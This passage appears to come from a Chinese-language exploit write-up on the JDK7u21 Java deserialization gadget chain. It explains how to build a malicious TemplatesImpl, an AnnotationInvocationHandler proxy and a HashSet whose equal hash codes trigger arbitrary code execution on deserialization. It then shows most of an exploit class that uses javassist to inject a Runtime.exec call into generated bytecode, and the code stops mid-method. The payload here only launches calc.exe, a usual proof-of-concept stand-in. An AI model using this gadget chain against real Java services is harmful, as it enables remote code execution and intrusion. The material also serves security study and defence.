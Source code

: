 ## 利用链构造
所以，整个利用的过程就清晰了，按照如下步骤来构造：
- 首先生成恶意`TemplateImpl`对象
- 实例化`AnnotationInvocationHandler`对象
    - 它的type属性是一个`Templates`类
    - 它的`memberValues`属性是一个`Map`，`Map`只有一个key和value，key是字符串`f5a5a608`， value是前面生成的恶意`TemplateImpl`对象
- 对这个`AnnotationInvocationHandler`对象做一层代理，生成proxy对象
- 实例化一个`HashSet`，这个`HashSet`有两个元素，分别是:
- `TemplateImpl`对象
- `proxy`对象
- 将`HashSet`对象进行序列化

这样，反序列化触发代码执行的流程如下：
- 触发`HashSet#readObject`方法，其中使用`HashMap`的key做去重
- 去重时计算`HashSet`中的两个元素的`hashCode()`，因为我们的精心构造二者相等，进而触发`equals()`方法
- 调用`AnnotationInvocationHandler#equalsImpl`方法
- `equalsImpl`中遍历this.type的每个方法并调用
- 因为this.type是`Templates`类，所以触发了`newTransform()`或`getOutputProperties()` 方法
- 任意代码执行

## 最终exp
```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;

public class jdk7u21 {
    public static TemplatesImpl generateEvilTemplates() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换为bytes
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
```